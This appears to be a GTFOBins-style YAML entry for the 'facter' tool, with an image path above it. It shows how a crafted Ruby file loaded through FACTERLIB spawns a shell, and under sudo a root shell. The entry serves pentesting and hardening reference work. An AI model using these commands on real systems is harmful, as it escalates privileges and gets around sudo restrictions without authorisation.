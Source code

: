functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        FACTERLIB=$TF facter
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        sudo FACTERLIB=$TF facter
---
